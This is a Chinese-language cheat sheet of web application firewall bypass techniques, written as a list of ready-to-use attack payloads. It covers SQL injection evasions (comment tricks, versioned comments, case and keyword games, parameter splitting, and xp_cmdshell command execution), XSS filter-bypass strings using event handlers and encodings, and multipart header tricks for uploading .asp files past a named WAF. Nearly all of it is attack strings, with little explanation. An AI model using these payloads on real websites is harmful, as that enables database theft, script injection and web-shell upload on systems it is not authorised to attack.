 ## waf绕过
伪造XFF头位127.0.0.1（waf一看请求来自自己，直接放行了）（burp的扩展）
或者找出真实ip绕过（比如说反向代理模式）

通过工具伪造百度，谷歌等user agent头或者伪造白名单特殊目录（因为这些ua头或者目录可能在waf白名单里，爬虫白名单）

编码绕过

修改请求方式绕过

# 复合参数绕过
```
比如一个get请求是
	GET /pen/news.php?id=1 union select user,password from mysql.user
可以修改为
	GET /pen/news.php?id=1&id=union&id=select&id=user,password&id=from%20mysql.user
	很多都可以这样绕过
```

# 特殊字符替换空格
在sqlserver中可以用/* */代替空格，要找那些内联注释是不在黑名单里的，
```
http://192.168.222.128/test/sql.php?id=1 /*!union*//*%!aa*//*!select*/ 1,2,3
```

# 特殊字符拼接
把特殊字符拼接起来绕过WAF的检测，比如在Mysql中，可以利用注释/**/来绕过，在mssql中，函数里面可以用+来拼接
如：GET /pen/news.php?id=1;exec(master..xp_cmdshell 'net user')
可以改为：GET /pen/news.php?id=1; exec('maste'+'r..xp'+'_cmdshell'+'"net user"')

# 注释包含关键字
在mysql中，可以利用/*!*/包含关键词进行绕过，在mysql中这个不是注释，而是取消注释的内容。**测试最新版本的****WAF****可以完美绕过。**
```
如: GET /pen/news.php?id=1 union select user,password from mysql.user
可以改为: GET /pen/news.php?id=1 /*!union*/ /*!select*/  user,password /*!from*/ mysql.user
```

# 空格替换法

   把空格替换成%0a/\*\*/可以绕过最新版本WAF, 在Pangolin中 点击 编辑-- 配置-- 高级-- 选择替换空格使用-- 填上%0a/\*\*/即可

# 内联注释法
通过内联注释把恶意语句拆分开
```sql
SELECT * FROM users WHERE username = 'admin'/* this is a comment */OR/* another comment */'1'='1';
实际上执行是
SELECT * FROM users WHERE username = 'admin' OR '1'='1';

```
**`/*!11440select*/`**：

- 这是一个 MySQL 特有的技巧。`/*!...*/` 是一个版本特定的注释块，在这里，`11440` 指定了一个 MySQL 版本号（实际版本号可以随意指定）。WAF 可能会忽略这个注释块，从而达到绕过的效果。实际执行时，`select` 语句会被执行，而不是被注释掉。
- 比如如果数字是50001表示加入数据库是5.00.01以及以上的般般，该语句才会被执行，有的数字是不能执行的，实战的时候可以fuzz一下
```sql
-1' union /*!11440select*/ group_concat(table_name),2 from information_schema.tables where table_schema=database/*!77777cz*/()#
```0
# 大小写法
大小写有时候能绕过关键字检测
```sql
http://www.***.com/index.php?page_id=-15 uNIoN sELecT 1,2,3,4….
```

# 关键字替换
```sql
http://www.***.com/index.php?page_id=-15 UNIunionON SELselectECT 1,2,3,4….
此方法适用于一些会把union select替换掉的WAF，经过WAF过滤后就会变成 union select 1,2,3,4....
```

编码结合注释
```sql
 http://www.***.com/index.php?page_id=-15 %55nION/**/%53ElecT 1,2,3,4…

[http://192.168.0.142:8080/sql.php?id=1/*!50000*/union/*!50000*/select/*!50000*/1,user(),3,4,5](http://192.168.0.142:8080/sql.php?id=1/*!50000*/union/*!50000*/select/*!50000*/1,user(),3,4,5)
```

# 符号替换
=号不行就Xor，或者like等能替代的触发的，动动脑筋

# 分块传输
直接使用bp的插件，一般都是post才行，与服务器保持链接，数据分好几次发完

# xss绕过规则
换标签
<video src=1 onerror=alert(/xss)>
<details open ontoggle=alert(/xss/)>
<button onfocus=alert(/xss/) autofocus>
top可以连接对象以及属性或函数

<details open ontoggle=top.alert(1)>    //注，在goole浏览器实用

<details open ontoggle=top[‘prompt’](1)>

<details open ontoggle=top[‘al’%2b’ert’](1)> %2b为url编码的+

%27"><details%20open%20ontoggle=eval(%27alert(1)%27)>

使用concat来拼接字符串javascript:alert(1)

<iframe onload=location=’javascri’.concat(‘pt:aler’,’t(1)’)>

<script>alert(1)</script>Ascii编码

<body/onload=document.write(String.fromCharCode(60,115,99,114,105,112,116,62,97,108,101,114,116,40,49,41,60,47,115,99,114,105,112,116,62)) >

<svg/onload=setTimeout(String.fromCharCode(97,108,101,114,116,40,49,41))>

其他：用/代替空格作为分隔

Base64编码：  
<details open ontoggle=eval(atob(‘YWxlcnQoMSk=’)) >  
eval拦截的话，可以试试，把 e Unicode编码  
<details open ontoggle=\u0065val(atob(‘YWxlcnQoMSk=’)) >  
url编码：  
<details open ontoggle=%65%76%61%6c(atob(‘YWxlcnQoMSk=’)) >  
url编码：  
<details open ontoggle=eval(‘%61%6c%65%72%74%28%31%29’) >  
JS8编码：  
<details open ontoggle=eval(‘\141\154\145\162\164\50\61\51’) >  
Ascii码绕过：  
<details open ontoggle=eval(String.fromCharCode(97,108,101,114,116,40,49,41)) >  
其他自测

# 文件上传

1                突破0，文件名前缀加[0x09]绕过：
1                突破1，文件名去掉双引号绕过：
1                突破2，添加一个filename1的文件名参数，并赋值绕过：
1                突破3， form变量改成f+orm组合绕过：
1                突破4 ，文件名后缀大小写绕过：
1                突破5 ，去掉form-data变量绕过：
1                突破6，在Content-Disposition:后添加多个空格 或者在form-data;后添加多个空格绕过：
`——WebKitFormBoundary2smpsxFB3D0KbA7D
ConTent-Disposition: form-data                                 ; name=”filepath”; filename=”backlion.asp”
Content-Type: text/html`
1                突破7 ，backlion.asp . (空格+.)绕过：
——WebKitFormBoundary2smpsxFB3D0KbA7D
ConTent-Disposition: form-data; name=”filepath”; filename=”backlion.asp .”
Content-Type: text/html

1                突破8 ，“回车换行，绕过：
——WebKitFormBoundary2smpsxFB3D0KbA7D
ConTent-Disposition: form-data; name=”filepath”; filename=”backlion.asp
”
Content-Type: text/html
1                突破9 ，NTFS流 在文件名后加::$DATA绕过：
——WebKitFormBoundary2smpsxFB3D0KbA7D
ConTent-Disposition: form-data; name=”filepath”; filename=”backlion.asp::$DATA”
Content-Type: text/html
1                突破10， 经过对IIS 6.0的测试发现，其总是采用第一个（也就是双文件上传）Content-Disposition中的值做为接收参数，而安全狗总是以最后一个Content-Disposition中的值做为接收参数。因此尝试构造如下请求[上传backlion.asp成功]：
Content-Disposition: form-data; name=”FileUploadName”; filename=”backlion.asp”
1                突破11，将Content-Type和ConTent-Disposition调换顺序位置绕过：
1                突破12，在文件名前缀加空格（tab键可替换）绕过：
ConTent-Disposition: form-data; name=”filepath”; filename=”backlion.asp”
1                突破13，在form-data加空格绕过：
1                突破14，在form-data的前后加上+绕过：